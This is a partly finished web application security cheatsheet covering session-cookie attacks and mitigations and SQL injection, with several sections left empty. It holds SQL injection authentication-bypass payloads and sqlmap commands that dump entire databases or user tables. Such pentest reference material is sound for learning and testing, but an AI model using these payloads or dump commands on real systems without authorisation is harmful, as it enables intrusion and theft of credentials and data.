 Web Application Security Cheatsheet - NORMAL
==============================================

## Table of Contents

- [Session Management](#session-management)  
- [Access Controls](#access-controls)  
- [Cross-Site Scripting (XSS)](#cross-site-scripting)  
- [SQL Injection](#sql-injection)  

## Session Management
---

**Summary**  

Anatomy of a session cookie:  
_REQUEST: Server -> Client_
![Server -> Client](Resources/Cookie1.png)  
_REQUEST: Client -> Server_  
![Client -> Server](Resources/Cookie2.png)  

**Exploitation**  

Session Creation:  
* Attack the PRNG (pseudo-number-generator) and generate my own token?
  * Perform a brute force attack if PRNG is weak / patterns can be inferred.
* Hijack a valid user session by stealing their token after they log in.  

Session Handling / Transfer / Usage:  
* Steal the user cookie via. XSS.
  * Mitigated by `HttpOnly` flag: instructs web browsers not to allow scripts to access cookies. via the DOM document.cookie object.
* Steal the user cookie via. redirection to an external page.  

Session Clean-Up:
* Check / change cookie expiration.  

XXS via. cookies:
* Insert XSS payload into cookie content.  

**Mitigation**  

Session Creation:
* New tokens should be issued on login / privilege change.  
* Don't use persistent cookies or cacheable cookies.
* Set `HttpOnly` flag.  

Session Handling / Transfer / Usage:  
* Perform server-side validation of a user's session.  
* Don't reveal session tokens in a URL parameter.  
* Disable web-browser cross-tab sessions.  

Session Clean-up:
* Destroy sessions tokens appropriately: implement token expiration, avoid token re-use.  
* Force session logout on web browser window close events.  

## Access Controls
---

**Summary**  


**Exploitation**  


**Mitigation**  


## Cross-Site Scripting
---

**Summary**

**Exploitation**

**Mitigation**


## SQL Injection
---  

More SQLi cheatsheets: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

**Summary**  

`UNION` operator is used to combine the resulting set of 2 or more SELECT statements.
* e.g. `SELECT name FROM customers UNION SELECT name FROM suppliers`
* ^Combines customer and suppliers names in one table, displaying distinct rows only.
* `UNION ALL` is the same but displays all rows.  

**Exploitation: Manual**  

Authentication Bypass
```SQL
' or '1'='1
' UNION ALL SELECT CURRENT_USER, '1
' UNION ALL SELECT name,pass FROM users WHERE name="noone"--    # whitespace needed after -- comment
```

**Exploitation: Sqlmap**  

Dump everything + level 4 tests + 10 threads.  
`python sqlmap.py -u https://example.com/?id=1 -a --level=4 --threads=10`  

Dump a specific table within a database  
`python sqlmap.py -u https://example.com/?id=1 --dump -D DATABASE -T TABLENAME`  

Enumerate information inside `information_schema.tables`:
* This is a standard MySQL table which will contain metadata for every table within a database.




**Mitigation**
